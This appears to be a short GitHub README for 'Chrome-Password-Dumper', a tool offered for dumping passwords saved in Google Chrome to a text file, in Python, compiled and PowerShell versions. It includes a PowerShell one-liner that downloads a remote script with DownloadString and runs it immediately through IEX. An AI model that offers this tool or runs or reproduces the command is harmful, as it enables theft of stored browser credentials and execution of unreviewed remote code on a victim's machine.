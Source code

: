 # Chrome-Password-Dumper

### Author
Source: [here](https://github.com/roflsandwich/Chrome-Password-Dumper)
Author: [@roflsandwich](https://github.com/roflsandwich/)

For Windows version simply run **chrome.exe** to dump the passwords to a text file.

For **powershell** version: 
> IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/roflsandwich/Chrome-Password-Dumper/master/chromev2.ps1')

**Chrome must be closed before running the PoC**

* chrome.py uncompiled version

* chrome.exe - compiled with py2exe

* chrome.ps1 - powershell version

* chromev2.ps1 - powershell version with a process check for chrome.
